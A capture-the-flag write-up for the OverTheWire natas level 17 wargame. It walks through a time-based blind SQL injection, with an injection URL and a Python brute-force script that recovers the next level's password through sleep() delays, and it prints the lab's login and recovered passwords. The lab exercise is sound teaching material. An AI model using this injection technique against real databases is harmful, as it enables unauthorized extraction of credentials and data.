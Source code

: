 # [natas 17](http://natas17.natas.labs.overthewire.org)

    Username: natas17
    Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

This level is upgrade of level 15.
We can't see the result of SQL injection directly.
We are going to use time-based blind SQL injections to brute force the password.

Have a try, browse to the url below to guess the password.
If the password starts with x, the result will be returned after a sleep.

    http://natas17.natas.labs.overthewire.org/?username=natas18" and if(password like binary "x%", sleep(5), null)%23&debug

I will show the python script below.

    import requests
    chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
            [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
            [chr(i) for i in range(ord("0"),ord("9")+1)]
    password = ''
    for i in range(64):
        for ch in chars:
            try:
                requests.get('http://natas17.natas.labs.overthewire.org/?username=natas18" and if (password like binary "'+password+ch+'%",sleep(5),null) %23', auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'), timeout=1)
            except requests.exceptions.Timeout:
                password += ch
                print(password)
                break
        else:
            break

We get the result in some minutes.

    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

